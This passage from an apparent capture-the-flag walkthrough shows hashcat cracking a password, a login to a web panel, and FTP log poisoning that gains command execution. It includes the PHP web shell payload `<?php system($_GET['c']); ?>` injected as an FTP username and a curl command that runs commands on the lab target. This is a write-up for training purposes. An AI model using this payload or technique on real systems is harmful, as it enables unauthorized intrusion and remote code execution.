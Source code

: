 ```bash
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       34 H/s (6.01ms) @ Accel:16 Loops:4 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 64/14344385 (0.00%)
Rejected.........: 0/64 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1020-1024
Candidates.#1....: 123456 -> charlie

Started: Thu Dec 22 11:53:35 2022
Stopped: Thu Dec 22 11:53:44 2022

```

Great! We got the password, now let's go to the web page and login.

![](3.png)

We're logged in successfully and it seems we view some log file, but when we press `log` button nothing appears.

We have so far interacted with mysql server and the web server, so the log file is for the other two services left, which are ssh and ftp. Let's try connecting with those two services using the name `SSHuser` for ssh and `FTPUSER` for ftp and see if something appears in the log file.

![](4.png)

Great! We confirmed that the log file we're seeing is for ftp. 

# **Foothold**

To get a foothold into the machine, we're gonna use a techniques called `log poisoning` where we're gonna poison this ftp log by injecting a php code that would allow us to execute command on the target system.

To do that we're gonna connect to the ftp server and supply the following php code `<?php system($_GET['c']); ?>` as the user.

![](5.png)

Now using `curl`, we're gonna request the log file and add a `c` parameter at the end of the url that would have the command we want to execute.

```bash
curl 'http://10.10.117.23/welcome.php?c=id' -X POST -d 'log=Log' -b "PHPSESSID=o043dgfcg7efu1eb06v5ouk81u" -H "Content-Type: application/x-www-form-urlencoded" 
```


>NOTE: You have to change the PHPSESSID value to the one you have.

![](6.png)

Great! We managed to execute code.
